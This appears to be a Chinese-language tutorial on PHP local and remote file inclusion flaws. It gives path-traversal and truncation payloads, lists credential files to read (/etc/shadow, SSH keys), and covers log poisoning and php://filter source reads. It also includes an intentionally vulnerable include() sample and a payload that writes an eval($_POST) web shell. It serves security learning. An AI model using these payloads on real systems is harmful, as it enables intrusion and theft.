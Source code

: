 # 文件包含漏洞

&nbsp;

## 什么是文件包含

* 程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。
* 程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。
* 几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端


### 【常见文件包含函数】

* include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
* require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
* include_once()和require_once()：若文件中代码已被包含则不会再次包含
* 考虑常用的几种包含方式为
  * 同目录包含 file=.htaccess
  * 目录遍历 ?file=../../../../../../../../../var/lib/locate.db
  * 日志注入 ?file=../../../../../../../../../var/log/apache/error.log
  * 利用 /proc/self/environ

### 【漏洞分类】

* **本地文件包含**
  * 可以包含本地文件，在条件允许时甚至能执行代码
  上传图片马，然后包含
  读敏感文件，读PHP文件
  包含日志文件GetShell
  包含/proc/self/envion文件GetShell
  包含data:或php://input等伪协议
  若有phpinfo则可以包含临时文件
  
* **远程文件包含**
  * 可以直接执行任意代码
>要保证php.ini中allow_url_fopen和allow_url_include要为On
>日志文件一般没有读取权限，而php有时会将日志文件放在/home/log里


&nbsp;

## 文件包含漏洞利用

### 【利用方法】

* 参数，各种参数要探测
* 截断，可能会添加一些文件后缀，使用%00，././././截断
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量





### 【本地文件包含】

* **本地文件包含漏洞流程**
  *  保存为 include.php
  ```php
  <?php 
  $test=$_GET['c'];
  include($test);?> 
  ```
  
  * 在同一个目录下创建test.txt 内容为  <?php phpinfo() ?>
  * 访问测试  //http://127.0.0.1/test/include.php?c=test.txt    //访问连接，将123.txt传送给c并赋给test变量


* **本地包含漏洞注意事项**
  * 相对路径：../../../etc/passwd
  * %00截断包含(PHP<5.3.4)，magic_quotes_gps=off 才可以，否则%00会被转义


* **防御绕过**
  * (php版本小于5.2.8(?)可以成功
  ```
  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
  ```
  
  * (php版本小于5.2.8(?)可以成功，只适用windows
  ```
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ```
  
  * dvwa中级难度的包含，这个主要是过滤了远程文件包含和我们目录的跳转，大小写混合输入就可以绕过远程文件包含的过滤
  * 目录跳转的过滤我们可以构造….//….//xxx.php，方式绕过，由于他只过滤一次，我们可以利用他的过滤动态拼接目录跳转，从而绕过过滤


### 【本地文件包含漏洞利用】

* **读敏感文件**
  * Windows：
  C:\boot.ini  //查看系统版本
  C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
  C:\Windows\repair\sam  //存储系统初次安装的密码
  C:\Program Files\mysql\my.ini  //Mysql配置
  C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
  C:\Windows\php.ini  //php配置信息
  C:\Windows\my.ini  //Mysql配置信息
  
  * Linux：
  /root/.ssh/authorized_keys
  /root/.ssh/id_rsa
  /root/.ssh/id_ras.keystore
  /root/.ssh/known_hosts
  /etc/passwd
  /etc/shadow
  /etc/my.cnf
  /etc/httpd/conf/httpd.conf
  /root/.bash_history
  /root/.mysql_history
  /proc/self/fd/fd[0-9]*(文件标识符)
  /proc/mounts
  /porc/config.gz
  
* **包含日志(主要是得到日志的路径)**
  * 读日志路径：
  默认位置/var/log/httpd/access_log
  
  * 文件包含漏洞读取apache配置文件：
  index.php?page=/etc/init.d/httpd
  index.php?page=/etc/httpd/conf/httpd.conf
  
  * 日志会记录客户端请求及服务器响应的信息，访问http://www.xx.com/<?php phpinfo(); ?>时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent


* **读PHP文件**
  * 直接包含php文件时会被解析，不能看到源码，可以用封装协议读取
  * ?page=php://filter/read=convert.base64-encode/resource=config.php  访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码

* **log投毒**
  * 工作原理是修改我们发送给web应用程序的数据，使日志包含可执行代码。
  * 首先是否可以访问log文件，其次看其中含有http header中的哪一项，例如useragent
  * 尝试将shellcode注入到useragent中
  * 使用LFI访问log文件

### 【远程文件包含】

* 远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
* 若在a.txt写入<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[xxx]); ?>") ?>，可直接写shell



